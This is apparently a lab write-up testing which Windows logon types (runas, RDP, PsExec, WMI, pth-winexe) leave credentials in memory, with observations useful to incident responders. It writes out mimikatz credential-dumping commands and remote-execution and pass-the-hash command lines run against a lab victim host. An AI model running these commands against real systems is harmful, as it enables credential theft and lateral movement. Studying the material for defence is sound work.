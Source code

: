```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump using mimikatz on the victim system to see what we can get before we start logging on to it using other methods such as runas, psexec, etc. To test this, the victim system was rebooted and no other attempts to login to the system were made except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

## References

{% embed url="https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes" %}



